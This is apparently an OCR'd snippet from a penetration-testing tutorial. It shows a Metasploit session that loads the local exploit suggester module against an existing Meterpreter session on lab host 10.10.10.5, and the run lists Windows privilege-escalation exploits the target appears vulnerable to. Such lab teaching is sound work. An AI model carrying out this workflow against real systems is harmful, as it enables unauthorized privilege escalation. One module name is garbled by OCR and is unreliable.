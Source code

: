 ### MSF - Searching for Local Exploit Suggester

```r
msf6 > search local exploit suggester

<...SNIP...>
   2375  post/multi/manage/screenshare                                                              normal     No     Multi Manage the screen of the target meterpreter session
   2376  post/multi/recon/local_exploit_suggester                                                   normal     No     Multi Recon Local Exploit Suggester
   2377  post/osx/gather/apfs_encrypted_volume_passwd                              2018-03-21       normal     Yes    Mac OS X APFS Encrypted Volume Password Disclosure

<SNIP>

msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set session 2

session => 2


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 31 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_s

chlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
